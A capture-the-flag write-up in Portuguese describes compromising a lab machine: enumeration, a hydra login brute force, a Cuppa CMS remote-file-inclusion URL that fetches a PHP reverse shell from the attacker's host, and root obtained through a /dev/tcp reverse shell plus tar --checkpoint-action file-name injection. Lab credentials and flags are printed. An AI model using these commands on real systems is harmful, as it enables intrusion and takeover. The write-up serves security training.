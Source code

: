 # SCANNING
Com o comando 
```Kali
sudo nmap -A -Pn -T5 -v 10.10.76.34
```
iniciamos o escaneamento mais abrangente, sem realizar o PING, nas 1000 portas comum, de forma agressiva
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250131173426.png)
## Informações Levantadas
**Portas Abertas**: 22, rodando um serviço SSH OpenSSH 7.2p2 Ubuntu 4ubuntu2.7
			80, rodando um serviço WEB Apache httpd 2.4.18
			110, rodando um serviço de email POP3 Dovecot pop3d
			139, rodando um serviço
			143, rodando um serviço de email Dovecot imapd
			445, , rodando um serviço Samba 4.3.11
**SO**: Ubuntu 4.4
# Enumeração
Ao acessar o serviço WEB encontramos uma página mas sem formas de exploração aparente
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211172518.png)

Realizamos então a enumeração do serviço SMB e descobrimos algumas coisas interessantes
```Kali
enum4linux -a 10.10.255.32
```
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211172131.png)
Conseguimos conectar no compartilhamento anonymous e identificamos um arquivo de log, que parece ser uma wordlist
```Kali
smbclient //10.10.255.32/anonymous -N
```
![[Pasted image 20250211172249.png]]
![[Pasted image 20250211132254.png]]
Realizamos a enumeração do serviço WEB com o **gobuster** e identificamos um serviço de email

```Kali
gobuster dir -u http://10.10.255.32 -w /usr/share/wordlists/dirb/big.txt
```

![[Pasted image 20250211132115.png]]

![[Pasted image 20250211125256.png]]
# Exploração
Tentaremos descobrir a credencial do usuário milesdyson (nome de um compartilhamento) com a wordlist encontrada em log1 com o **hydra**, utilizando o **Burp Suite** para analisar a requisição e montar a sintaxe
```Kali
hydra -l milesdyson -P /home/rosembrick/log1.txt 10.10.255.32 http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:F=Unknown user or password incorrect" -v -T64 -I
```

![[Pasted image 20250211125533.png]]

![[Pasted image 20250211125612.png]]

Após a tentativa, descobrimos a credencial e assim obtivemos acesso ao serviço de email
![[Pasted image 20250211124948.png]]
login: milesdyson   password: cyborg007haloterminator
Numa das primeiras mensagens, há uma senha do serviço SMB possivelmente
![[Pasted image 20250211125214.png]]

Conseguimos acesso ao compartilhamento do usuário milesdyson e obtemos acesso a um arquivo importante, chamado importan.txt com suposto diretório
![[Pasted image 20250211125717.png]]

![[Pasted image 20250211125803.png]]
Ao acessarmos o diretório encontramos esta página e assim, tentamos mais uma vez enumerar com o **gobuster**
![[Pasted image 20250211125822.png]]
Com o comando abaixo, identificamos uma página de login
```Kali
gobuster dir -u http://10.10.255.32/45kra24zxs28v3yd -w /usr/share/wordlists/dirb/big.txt
```
![[Pasted image 20250211125057.png]]

![[Pasted image 20250211125924.png]]
Procuramos por exploits que explorem o serviço CUPPA CMS e identificamos um exploit para executar um RFI
![[Pasted image 20250211125443.png]]
Preparamos nosso exploit conforme descrição do script, alterando para o nosso host conforme se segue
![[Pasted image 20250211130055.png]]
Com um listener aberto no Kali e um servidor Python para que o alvo se conecte e faça o dowload do nosso reverse shell por PHP, acessamos a página abaixo
http://10.10.255.32/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.23.22.193:443/exploit_php.php
![[Pasted image 20250211125334.png]]
E assim, conseguimos acesso ao alvo pelo usuário www-data.
![[Pasted image 20250211124851.png]]
Capturamos a flag do user
![[Pasted image 20250211131725.png]]
**user:** 7ce5c2109a40f958099283600a9ae807
# Escalação de Privilégio
Realizamos uma enumeração interna com **linpeas.sh** baixado por um servidor python do nosso Kali
![[Pasted image 20250211132021.png]]
E identificamos esse script que realiza backup a cada 1 min com a ferramenta **tar**, passível de explorarmos para escalarmos privilégio
![[Pasted image 20250211124302.png]]

![[Pasted image 20250211124424.png]]
Verificamos que o binário **tar** executa um comando em cada ponto de verificação do backup
![[Pasted image 20250211124600.png]]
Para isso preparamos nosso script para escalarmos para root com o comando abaixo
![[Pasted image 20250211130324.png]]

```Kali
echo '#!/bin/bash > root_shell.sh
```
```Kali
echo 'bash -i >& /dev/tcp/10.23.22.193/4445 0>&1' >> root_shell.sh
```
Agora criaremos um **arquivo** chamado `--checkpoint-action=exec=bash root_shell.sh`, contendo o texto `/var/www/html` para que o `tar` executado dentro desse diretório, use o `--checkpoint`, e assim executar o nosso shell reverso `root_shell.sh`.
```Kali
echo "/var/www/html"  > "--checkpoint-action=exec=bash root_shell.sh"
```
![[Pasted image 20250211130505.png]]
Como o arquivo inicial `/home/milesdyson/backups/backup.sh`executa o binário **tar** a cada minuto, receberemos a shell de root em 1 minuto conforme abaixo.
![[Pasted image 20250211131601.png]]
Já com acesso ao root, capturamos a flag de root

![[Pasted image 20250211131643.png]]

**root:** 3f0372db24753accc7179a282cd6a949

